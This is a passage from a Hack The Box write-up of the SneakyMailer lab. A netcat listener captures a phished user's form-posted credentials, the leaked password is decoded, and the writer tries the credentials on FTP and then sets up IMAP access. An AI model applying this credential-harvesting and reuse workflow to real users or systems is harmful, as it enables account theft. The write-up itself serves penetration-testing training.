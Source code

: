 Lastly, we are able to receive a response on our local server. Looking at the body of the response that we received, we are able to obtain the credentials for Paul. Url decoding the response body, we are able to obtain the password as ```^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht```

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/sneakymailer]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.197] 51846
POST / HTTP/1.1
Host: 10.10.16.4:4000
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Using the email that we have obtained, we will try to authenticate to the ftp server. However, we are unable to authenticate to the ftp server.

```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): paulbyrd@sneakymailer.htb
530 Permission denied.
Login failed.
ftp> 
```

### Imap Enumeration

Recalling that we have an IMAP service on port 143, let us try to use the credentials that we have obtained on the imap service. To do so, we will use claws mail. In claws mail, we will have to configure the mail to receive the emails from paulbyrd@sneakymailer.htb. To do that, we will then have to configuration > create new account.
